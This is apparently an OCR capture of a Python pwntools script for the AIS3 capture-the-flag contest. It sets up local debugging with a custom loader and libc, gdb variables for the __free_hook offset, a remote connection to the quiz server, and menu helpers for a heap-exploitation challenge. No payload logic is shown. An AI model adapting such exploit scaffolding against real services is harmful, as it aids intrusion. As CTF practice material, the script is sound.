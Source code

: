 ``` python
context.log_level = 100
context.log_level = 0

c = 0
if debug == 1:


    ld_str = "./ld-2.31.so --library-path ./ {}".format(pwn_file)
    print(ld_str.split())
    c = process(ld_str.split(), env={'LD_PRELOAD': lib_file})

    elf_path = c.cwd + pwn_file.strip('.')
    lib_path = c.cwd + lib_file.strip('.')

    while not c.libs():
        sleep(1)

    print(c.libs())

    gdbcmd = '''
    set $elf={}
    set $lib={}
    set $freehook=$lib+0x1eeb20
    set $ptr_pool=$elf+0x4060
    '''.format(hex(c.libs()[elf_path]), hex(c.libs()[lib_path]))
    gdb.attach(c, gdbscript=gdbcmd)

else:
    c = remote('quiz.ais3.org', 5005)

def record_raw(x, y, name_len, name):
    c.sendlineafter(">", "1")
    c.sendlineafter("x:", str(x))
    c.sendlineafter("y:", str(y))

    # name
    c.sendlineafter("length:", str(name_len))
    c.sendafter("name:", name)


def record(x, y, name_len, name):
    record_raw(x, y, name_len, name + '\n')

def delMem(index):
    c.sendlineafter(">", "2")
    c.sendlineafter("index:", str(index))

def adjust(index, x, y):
    c.sendlineafter(">", "3")
    c.sendlineafter("index:", str(index))
    c.sendlineafter("x:", str(x))
    c.sendlineafter("y:", str(y))

def telescope(index):
    c.sendlineafter(">", "4")
    c.sendlineafter("index:", str(index))

def exitProgram():
    return
    c.sendlineafter(">", "5")

    c.sendlineafter("Length of command name:", str(cmd_len))
    c.sendlineafter("Command name:", cmd)
```